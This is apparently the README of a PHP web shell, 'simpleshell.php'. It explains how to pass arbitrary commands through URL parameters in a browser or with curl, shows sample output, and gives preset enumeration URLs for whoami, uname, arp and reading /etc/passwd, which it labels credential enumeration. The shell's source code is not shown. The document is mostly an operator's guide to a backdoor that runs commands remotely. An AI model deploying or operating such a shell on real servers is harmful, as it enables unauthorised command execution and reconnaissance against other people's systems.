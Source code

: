 The web shell can execute arbitrary commands (though not all commands will work):
* `cmd`: The executable to run.
* `opts`: Any options to pass to the executable. No post-processing is done on this, so any spaces must be included in the argument.

The parameters are assembled into the command with one space between them, then executed.
```
$cmd $options
```

**This web shell runs with the usually limited privileges of the Apache user (e.g., `www-data`). Some privileged commands will not work.**

### Executing the Web shell - Browser

* In a browser, type `http://localhost/simpleshell.php?cmd=uname&opts=-a`.

The web shell will print its output to the page. It will be similar to this:
```
Linux devhost 5.15.0-30-generic #31-Ubuntu SMP Thu May 5 10:00:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

This example ran the `uname -a` command.

### Executing the Web shell - GET request

* In a shell, use a GET request to send the command with `curl`.
  * Make sure that the URL is surrounded by single quotes.

```
curl -X GET 'http://localhost/simpleshell.php?cmd=uname&opts=-a'
```

This time, because you are getting the raw response, you see the `<pre></pre>` HTML tags in the output.
```
<pre>Linux devhost 5.15.0-30-generic #31-Ubuntu SMP Thu May 5 10:00:34 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
</pre>
```

### Pre-set Enumeration Commands

Using these pre-set URL commands will execute simple host enumeration and discovery tasks:

| Variable | Actual command | Purpose | URL to use |
| -------- | -------------- | ------- | ----------- |
| `whoami` | `whoami`       | Get current username | `http://localhost/simpleshell.php?whoami` |
| `uname`  | `uname -a`     | OS information | `http://localhost/simpleshell.php?uname` |
| `arp`    | `arp -a`       | Network enumeration | `http://localhost/simpleshell.php?arp` |
| `passwd` | `cat /etc/passwd` | Credential enumeration - shows the contents of `/etc/passwd`. | `http://localhost/simpleshell.php?passwd` |

**If you are using curl, remember to enclose the URLs in single quotes!**
